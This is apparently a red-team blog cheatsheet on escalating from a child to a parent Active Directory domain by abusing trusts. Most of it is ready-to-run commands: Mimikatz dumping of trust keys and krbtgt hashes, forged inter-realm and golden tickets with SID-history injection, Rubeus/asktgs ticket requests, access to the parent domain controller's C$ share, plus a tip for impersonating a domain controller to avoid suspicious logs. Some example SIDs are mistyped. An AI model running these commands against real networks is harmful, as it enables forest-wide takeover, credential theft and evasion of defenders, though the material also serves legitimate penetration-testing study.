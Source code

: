 ```yaml
---
title: Across Domain Trusts cheatsheet
subtitle: Trusts are relationships between domains or forests which allows users of one domain or forest to access resources in the other domain or forest.

# Summary for listings and search engines
summary: Trusts are relationships between domains or forests which allows users of one domain or forest to access resources in the other domain or forest.

# Link this post with a project
projects: []

# Date published
date: '2022-09-08T00:00:00Z'

# Date updated
lastmod: '2022-09-08T00:00:00Z'

# Is this an unpublished draft?
draft: false

# Show this page in the Featured widget?
featured: false

# Featured image
# Place an image named `featured.jpg/png` in this page's folder and customize its options here.
image:
  caption: 'Image credit: [**Giovanni Pecoraro**](https://unsplash.com/photos/CpkOjOcXdUY)'
  focal_point: ''
  placement: 2
  preview_only: false

authors:
  - admin

tags:
  - Red Teaming
  - Windows
  - Active Directory
  - Trusts
  
categories:
  - Cyber Security
  - Red Teaming

---
```


Domains in same forest have an implicit two-way trust with other domains. There is a trust key between the parent and child domains.  There are two ways of escalating privileges between two domains of same forest: 

- Krbtgt hash 
- Trust Tickets

## Child to Parent using Trust Tickets

1. Look for [In] trust key from child to parent:

```powershell
# Invoke-Mimikatz
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName "cyberlab-dc.cyberlab.cybercorp.local"
Invoke-Mimikatz -Command '"lsadump::dcsync /user:cyberlab\cybercorp$"'
```

2. An inter-realm TGT can be forged: 

```powershell
# Invoke-Mimikatz
Invoke-Mimikatz -Command '"Kerberos::golden /user:[USER] /domain:[CURRENT_DOMAIN_FQDN] /sid:[CURRENT_DOMAIN_SID] /sids:[ENTERPRISE_ADMINS_GROUP_SID] /rc4:[TRUST_KEY_NTLM] /service:krbtgt /target:[PARENT_DOMAIN_FQDN] /ticket:[TICKET_EXPORT_PATH]"'

Invoke-Mimikatz -Command '"Kerberos::golden /user:Administrator /domain:cyberlab.cybercorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /sids:S-15-21-280534878-1496970234-700767426-519 /rc4:7ef5be456dc8d7450fb8f5f7348746c5 /service:krbtgt /target:cybercorp.local /ticket:C:\AD\Tools\kekeo_old\trust_tkt.kirbi"'
```

| Parameter	| Optional| Description |
| --------------| ------- | ----------- |
| **/user**	| No    | Username to impersonate |
| **/domain**	| No	| Domain FQDN |
| **/sid**	| No	| SID of the current domain |
| **/sids**	| No	| SID of the enterprise admins group of the parent domain |
| **/rc4**	| No	| NTLM (RC4) hash of the trust key account. Use **/aes128** and **/aes256** for using AES keys |
| **/target**	| No	| Target server FQDN |
| **/service**	| No	| Target service in the parent domain (krbtgt) |
| /id		| Yes	| User RID (default 500) |
| /groups	| Yes	| Group RID (default 513 512 520 518 519) |
| /startoffset	| Yes	| When the ticket is available (default 0 - right now) in minutes. Use negative for a ticket available from past and a larger number for future |
| /endin	| Yes	| Optional ticket lifetime (default is 10 years) in minutes. The default AD setting is 10 hours = 600 minutes |
| /renewmax	| Yes	| Ticket lifetime with renewal (default is 10 years) in minutes. The default AD setting is 7 days = 100800 |
| /ptt	| 	| Injects the ticket into the current PowerShell process (no need to save the ticket on disk) |
| **/ticket**	|	| Saves the ticket to a file for later use |

3. Get a TGS for a service (e.g. CIFS) in the target domain by using the forged trust ticket. Tickets for other services (like HOST and RPCSS for WMI, HOST and HTTP for PowerShell Remoting and WinRM) can be created as well:

```powershell
# asktgs.exe 
.\asktgs.exe C:\AD\Tools\kekeo_old\trust_tkt.kirbi CIFS/cybercorp-dc.cybercorp.local
```

4. Use the TGS to access the targeted service (may need to use it twice). 

```powershell
# kirbikator.exe
.\kirbikator.exe lsa .\CIFS.cybercorp-dc.cybercorp.local.kirbi
```

5. Access the file share on the parent domain DC:

```powershell
ls \\cybercorp-dc.cybercorp.local\c$
```

Alternatively, it is possible to use `Kekeo` to ask for the TGS:
```powershell
.\Rubeus.exe asktgs /ticket:C:\AD\Tools\kekeo_old\trust_tkt.kirbi /service:CIFS/cybercorp-dc.cybercorp.local /dc:cybercorp-dc.cybercorp.local /ptt
```

## Child to Parent using krbtgt hash

1. Look for krbtgt hash:

```powershell
# Invoke-Mimikatz
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -ComputerName "cyberlab-dc.cyberlab.cybercorp.local"
```

2. Generate a Golden Ticket forcing the SID History parameter. We will abuse SID history once again. The mimkatz option "/sids" is forcefully setting the SID History for the Enterprise Admin group for cyberlab.cybercorp.local that is the Forest Enterprise Admin Group:

```powershell
# Invoke-Mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:[CURRENT_DOMAIN_FQDN] /sid:[CURRENT_DOMAIN_SID] /sids:[ENTERPRISE_ADMINS_GROUP_SID] /krbtgt:[KRBTGT_NTLM_HASH] /ticket:[TICKET_EXPORT_PATH]"'

Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:cyberlab.cybercorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /sids:S-15-21-280534878-1496970234-700767426-519 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 /ticket:C:\AD\Tools\krbtgt_tkt.kirbi"'
```

3. Pass the ticket to the current session on any machine of the current domain:

```powershell
Invoke-Mimikatz -Command '"kerberos::ptt C:\AD\Tools\krbtgt_tkt.kirbi"' 
```

4. Now, it is possible to access to machine services in the forest root domain:

```powershell
ls \\cybercorp-dc.cybercorp.local\c$
gwmi -class win32_operatingsystem -ComputerName cybercorp-dc.cybercorp.local
```

In order to avoid suspicious logs, impersonate Domain Controller account add to the SID History the SIDs of parent Domain Controllers group and Enterprise Domain Controllers group and set the group to 516 (Enterprise Admins group).

| Group				| SID			  |
| ------------------------------| ----------------------- | 
| Domain Controllers 		| S-1-5-21-[DOMAIN_ID]-516|
| Enterprise Domain Controllers	| S-1-5-9		  |

```powershell
# Invoke-Mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:[DC_NAME]$ /domain:[CURRENT_DOMAIN_FQDN] /sid:[CURRENT_DOMAIN_SID] /groups:516 /sids:[PARENT_DOMAIN_CONTROLLERS_GROUP_SID],[ENTERPRISE_DOMAIN_CONTROLLERS_GROUP_SID] /krbtgt:[KRBTGT_HASH] /ptt"'

Invoke-Mimikatz -Command '"kerberos::golden /user:dc$ /domain:cyberlab.cybercorp.local /sid:S-1-5-211874506631-3219952063-538504511 /groups:516 /sids:S-1-521-280534878-1496970234-700767426-516,S-1-5-9 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 /ptt"'
```
---